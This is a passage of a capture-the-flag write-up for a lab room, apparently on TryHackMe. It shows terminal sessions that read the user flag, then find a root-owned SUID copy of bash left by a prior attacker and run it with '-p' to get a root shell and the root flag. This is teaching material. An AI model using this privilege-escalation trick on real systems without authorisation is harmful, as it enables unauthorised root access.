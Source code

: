 We are now logged in as james. Let's get the user.txt flag :  
```
james@overpass-production:/home/james/ssh-backdoor$ cd ..
james@overpass-production:/home/james$ ls
ssh-backdoor  user.txt  www
james@overpass-production:/home/james$ cat user.txt 
thm{***************************}
```

**Question : What's the user flag ?**  
**Answer : thm{_HIDDEN_}**  

Now, it's time to get root ! If we look for hidden files in /home/james using `ls -la`, we can find something interesting :  
```
james@overpass-production:/home/james$ ls -la
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www
```

There is a file named .suid_bash that has the SUID bit set and the owner of this file is root... So let's execute it using `-p` option and see if it works :  
```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4#
```

And we are root ! Let's get the root flag now :  
```
.suid_bash-4.4# cd /root
.suid_bash-4.4# ls
root.txt
.suid_bash-4.4# cat root.txt
thm{****************************}
.suid_bash-4.4# 
```

**Question : What's the root flag ?**  
**Answer : thm{_HIDDEN_}**  

## Conclusion

I liked this room. The fact that we have to investigate the attack to find a way to take back the control of the server is very cool. Thanks for this room !

